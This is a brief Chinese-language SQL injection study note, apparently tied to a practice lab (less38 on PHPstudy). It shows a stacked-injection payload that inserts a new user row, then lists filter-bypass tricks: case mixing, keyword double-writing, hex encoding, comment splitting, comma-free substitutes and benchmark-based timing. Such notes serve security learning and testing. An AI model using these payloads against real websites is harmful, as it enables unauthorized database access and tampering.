```
## 15 堆叠注入

### less38

PHPstudy

MySQL里`;`后面加上新的数据，那么它会新起一行，添加一条内容是新的数据。

用于已知其网站注册入口、SQL的结构等。

```
id=1';insert into users(username,password)values('zj123','xxxx') --+
```






## 16 一些绕过方法：

1.大小写绕过
`UniOn SeleCT`

2.双写绕过
`union seleselectct`

3.编码绕过
`'scurity' = 0x73637572697479`

4.注释符
`uni/**/on sel/**/ect`

5.空格绕过/**/

6.or and绕过
`and == &&
or == ||`

7.内联函数
`/!*select*/ 1,2,3`

[内联注释/**/则是注释指定部分]

8.<>绕过
`uni<>on`

9.屏蔽逗号
`select substr('security',1,3)`
`select substr('security' from 1 for 3)`

`union select 1,2,3`
`union select * from (select 1)a join (select 2)b join (select 3)c`

`limit 0,1`
`limit 0 offset 1`

10.sleep屏蔽
`and sleep(1)`
`and benchmark(100000000,1)`

11.group_concat屏蔽
`select group_concat('x','y')`
```